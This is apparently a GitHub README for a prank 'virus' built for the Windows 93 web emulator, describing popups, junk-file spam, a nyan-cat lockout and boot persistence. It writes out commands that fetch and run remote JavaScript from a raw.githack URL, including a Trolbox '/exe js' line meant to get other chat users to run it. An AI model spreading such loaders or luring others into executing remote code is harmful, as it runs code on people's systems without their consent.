 # Memz-virus-v6

IF ANY OF THIS CODE IS USED OR HAS BEEN PUBLISHED BY SOMEONE ELSE YOU --MUST-- CREDIT ME

Hello there
This virus is inspired by the original MEMZ virus.
It is meant to run in the windows 93 emulator and was made in the emulator at http://windows93.net/

I would say this would be the best virus you can play with in win 93.



# What does it do?

The virus will make popups on your screen to annoy you including 2 other popups that will 
1: Load a memory virus. (spams you with junk files)

2: A fake reboot button that will put a nyan cat on your screen and play nyan cat music.
^^^(this will also not allow you to do anything, there will only be a nyan cat on your screen.)

The virus will open win 93 apps incuding Hydra.exe, and will also infect your boot with a js file that loads itself whenever you boot up. 
-->code($loader.script("https://raw.githack.com/mhmmkm/Memz-virus-v6/main/Code.js"))


There is another feature which defines that this is a virus. You can make others get it on their emulator using the win 93 app, Trolbox.
In trolbox u need to type in the command  /exe js https://raw.githack.com/mhmmkm/Memz-virus-v6/main/Code.js

The /exe command in trolbox is the executing command that will allow others to execute whatever you put after the exe.

This will make a /exe box next to your code which allows others to click that and execute that line of code.
It's the same thing in terminal. If you type js https://raw.githack.com/mhmmkm/Memz-virus-v6/main/Code.js
it will load the raw code.

I used https://raw.githack.com/ to make the code in this git be in a raw form.

____________________________________________________________________

I will be using this branch to publish any js code for the win 93 emulator.
